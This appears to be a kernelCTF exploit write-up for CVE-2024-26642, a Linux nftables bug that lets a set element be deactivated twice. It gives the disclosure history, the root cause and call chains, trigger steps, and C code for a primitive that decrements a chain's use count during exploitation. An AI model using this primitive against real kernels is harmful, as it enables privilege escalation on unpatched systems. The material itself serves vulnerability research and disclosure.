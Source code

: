 # Exploit detail about CVE-2024-26642
If you want to get some base information about CVE-2023-6817, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

## Some additional stories
After reading `vulnerability.md` or `cause analysis`, you may wonder why the root cause and patch do not seem to match. I can only talk about the vulnerability reporting process for this question.
I sent a vulnerability report to security@kernel.org at 2024.2.29 13:33: 
``` 
Hi, I've found a new vulnerability in Linux netfilter/nftable subsystem. In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step: 
1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS. 
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION. 
3. Create a chain. 
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1. 
5. Delete the chain And finally nft_setelem_data_deactivate will be called for the same set element both in nft_map_deactivate and in function pipapo_gc.

Attachment is the poc I wrote for this vulnerability, which leaks some kernel pointers. I tested it on linux 6.1.78.

Thanks,
lonial con
```
The email also attached a poc I wrote based on the trigger idea (it can cause the latest kernel at that time to produce crahs). I did not receive any reply emails afterwards.
On 2024.3.5, I noticed that the maintainer of netfilter pushed a patch to netfilter (https://patchwork.ozlabs.org/project/netfilter-devel/patch/20240301022605.146412-1-pablo@netfilter.org/). He pushed the corresponding patch without asking for any opinion from me.

The patch did make my poc not work, but this patch did not fix the core of the problem `set->dead = 1`. Therefore, I added two patch commits to `vulnerability.md`.

## Cause anaylysis

In the function nf_tables_deactivate_set, it does not set "set->dead = 1". This makes it possible to call nft_setelem_data_deactivate with a set element more than once by following this step:

1. Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
2. Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
3. Create a chain.
4. Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
5. Delete the chain

After you send these commands in a message list, when you reach step 5 `delete the chain`, the following call chain will occur:
```
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> case NFT_TRANS_PREPARE: nft_map_deactivate
```
`nft_map_deactivate` will eventually call `nft_setelem_data_deactivate` for all set elements in the set.

But at the same time, after all commands are executed, nftable will also call `nf_tables_commit`, which triggers another call chain:

```
nf_tables_commit -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```

Finally, `nft_setelem_data_deactivate` will be called for elements which are timed out in the pipapo set, which may result in multiple calls to `nft_setelem_data_deactivate` for the same set element.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set with flag NFT_SET_TIMEOUT and NFT_SET_ANONYMOUS.
- Create a set element of this pipapo set with flag NFTA_SET_ELEM_EXPIRATION.
- Create a chain.
- Create a rule with nft_lookup expr, which will bind the pipapo set we create in step 1.
- Delete the chain 


## Exploit it

Using CVE-2024-26642 to exploit a mitigation instance is completely different from exploiting a LTS or COS instance. But it can use the same idea as [this article](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/docs/exploit.md). My exploit is implemented by simply modifying the exploit code [here](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/exploit/mitigation-v3-6.1.55/exploit.c). This article only details the modified part of the original exploit(How to trigger the vulnerability so that chain B use count being decremented an additional time). For the content of the original exploit, please read [this article](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-6817_mitigation/docs/exploit.md).

## Primitive

### Primitive_1
I build a function named as `primitive_1` to change the nft_chain->use by triggering the vulnerabiltiy:

```c
//make target_chain->use = target_chain->use - 1
void primitive_1(struct nl_sock *socket, char *table, char *target_chain){
    char *pad = malloc(0x100);
    memset(pad,0x41,0x100);
    int i;
    struct nlmsghdr **msg_list = malloc(sizeof(struct nlmsghdr *)*0x200);
    char *set_name = "set for primitive1";
    char *chain_name = "chain for primitive1";
    char *key = malloc(0x40);
    msg_list[0] = new_set_pipapo_for_timeout_and_chain_with_anonymous_msg(table, set_name, 0x40);
    msg_list[1] = new_chain_msg(table, chain_name, 0);
    msg_list[2] = new_setelem_with_chain_and_expiration_msg(table, set_name, pad, 0xc0, target_chain, NULL, 0, NULL, 0, 1,0x0100000000000000);
    msg_list[3] = new_rule_lookup_for_chain_msg(table, chain_name, set_name, 1);
    msg_list[4] = del_chain_msg(table, chain_name);
    char *tmp = malloc(0x40);
    for(i=0;i<0x100;i++){
        snprintf(tmp, 0x40, "table for primitive %d", i);
        msg_list[5+i] = new_table_with_udata_msg(tmp, key, 0x40);
    }
    send_msg_list(socket, msg_list, 0x105);

    free(msg_list);
    free(pad);
}
```

How it works:
1. message 0: Create a pipapo set with flags `NFT_SET_TIMEOUT` and `NFT_SET_ANONYMOUS`
2. message 1: Create a chain
3. message 2: Create a set elements, all of which contain `NFTA_SET_ELEM_EXPIRATION` and `NFTA_SET_ELEM_TIMEOUT`.
4. message 3: Create a rule on the chain, which contains an expr of type `lookup`. `lookup` expr can be bound to an `nft_set` when initialized, and we let it bind the pipapo set created by message[0].
5. message 4: Delete the chain created by message 2
6. mseesage 5 - 0x104: Create 0x100 table with `udata`. This is just to increase the number of messages to ensure that the set element created by message 2 will time out when the vulnerability is triggered.

When the above message is sent, two rounds of calls to `nft_setelem_data_deactivate` for the same set element will be triggered:
    
The first round is when executing message 4, and the following call path will be generated in the end:

```c
nf_tables_delchain -> nft_delrule -> nft_rule_expr_deactivate -> (expr->ops->deactivate) -> nft_lookup_deactivate -> nf_tables_deactivate_set -> nft_map_deactivate
```

The `nft_map_deactivate` function will call `nft_mapelem_deactivate` -> `nft_setelem_data_deactivate` for all elements in the pipapo set created by message 0.

The second round is after all messages are executed, `netfilter` will call the `nf_tables_commit` function, and finally generate the calling path:
```c
nft_set_commit_update -> (set->ops->commit) -> nft_pipapo_commit -> pipapo_gc -> nft_pipapo_gc_deactivate -> nft_setelem_data_deactivate
```
The function `pipapo_gc` will also call `nft_setelem_data_deactivate` for all timeout elements in pipapo set.
(This is why it is necessary to add `set->dead = 1` in nf_tables_deactivate_set to fix the vulnerability, because after adding this line of code, the subsequent operations will not be executed in the function nft_set_commit_update.)
